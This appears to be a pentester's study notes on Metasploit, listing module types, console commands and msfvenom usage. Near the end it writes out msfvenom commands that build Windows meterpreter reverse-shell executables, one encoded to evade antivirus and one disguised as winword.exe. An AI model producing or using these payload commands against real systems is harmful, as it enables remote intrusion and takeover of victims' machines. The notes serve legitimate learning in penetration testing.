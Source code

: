 ```yaml
---
title: "Metasploit"
permalink: /docs/07_metasploit_101/
toc: true
---
```

#### Modules
- Exploit 
- Auxilary 
- post exploitation 
- Shell code related : payloads, NOPgenerator

- https://www.offensive-security.com/metasploit-unleashed/


#### commands
- msfconsole : to start metasploit
- msfupdate  : to update
- apt update && apt install metasploit-framework
- to start database : service PostgreSQL start
- db_status : database connectivity status
- db_import : importing file
- workspaces : to segregate work by pentester
  - workspace -d lab_network
- meterpreter
- hashdump
  
- payloads
  - staged payloads 
    - moduled as loader and final stage payload 
    - ex: windows/shell/reverse_tcp, first it send execute loader and second, attacker handler to send final payloadd
- msfvenom 
  - encoder : shikata_ga_nai
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT -f exe -o rev_shell.exe
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT -e x86/shikata_ga_nai -i 3 -f exe -o pay_load.exe
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT -x winword.exe -f exe -o winword.exe


- integrations : metasploit can integrate with Nessus




#### References 
- https://www.exploit-db.com
- https://www.rapid7.com/db/modules
- https://0day.today/

